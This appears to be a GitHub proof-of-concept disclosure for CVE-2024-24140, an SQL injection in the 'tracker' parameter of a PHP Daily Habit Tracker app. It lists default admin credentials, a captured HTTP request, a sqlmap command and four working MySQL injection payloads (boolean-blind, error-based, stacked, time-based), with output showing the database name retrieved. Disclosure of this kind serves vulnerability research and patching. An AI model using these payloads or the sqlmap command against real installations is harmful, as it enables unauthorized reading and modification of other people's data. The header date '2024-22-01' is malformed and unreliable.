 # CVE-2024-24140: Daily Habit Tracker App SQL Injection
+ **Exploit Title:** CVE-2024-24140: Daily Habit Tracker App SQL Injection
+ **Date:** 2024-22-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17118/daily-habit-tracker-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17118&title=Daily+Habit+Tracker+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-24140

## References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-24140
+ https://www.cve.org/CVERecord?id=CVE-2024-24140
+ https://nvd.nist.gov/vuln/detail/CVE-2024-24140

## Description:
Daily Habit Tracker App 1.0 allows SQL Injection via parameter 'tracker' in "habit-tracker/endpoint/delete-tracker.php?tracker=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: `http://localhost/habit-tracker/index.php`
+ Fill in the User ID and Password with `admin`:`admin` and log in.
+ Press the Delete Tracker button : `/habit-tracker/endpoint/delete-tracker.php?tracker=1`
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy and paste the request into an "r.txt" file.
+ Captured Burp request:
```
GET /habit-tracker/endpoint/delete-tracker.php?tracker=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
+ Use sqlmap to exploit. In sqlmap, use 'tracker' parameter to dump the database. 
``` 
sqlmap -r r.txt -p tracker --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: tracker (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: tracker=1' RLIKE (SELECT (CASE WHEN (5827=5827) THEN 1 ELSE 0x28 END))-- TFvZ

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: tracker=1' AND EXTRACTVALUE(7688,CONCAT(0x5c,0x71626a6a71,(SELECT (ELT(7688=7688,1))),0x7162767871))-- TWCh

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: tracker=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tracker=1' AND (SELECT 5872 FROM (SELECT(SLEEP(5)))IpgR)-- ZIFP
---
[16:39:44] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[16:39:44] [INFO] fetching current database
[16:39:44] [INFO] retrieved: 'habit_tracker_db'
current database: 'habit_tracker_db'
```
+ current database: `habit_tracker_db`

![Ekran görüntüsü 2024-01-22 012431](https://github.com/BurakSevben/Daily_Habit_Tracker_SQL_Injection/assets/117217689/dc4211dc-de6d-431b-aa23-45390e4796bc)


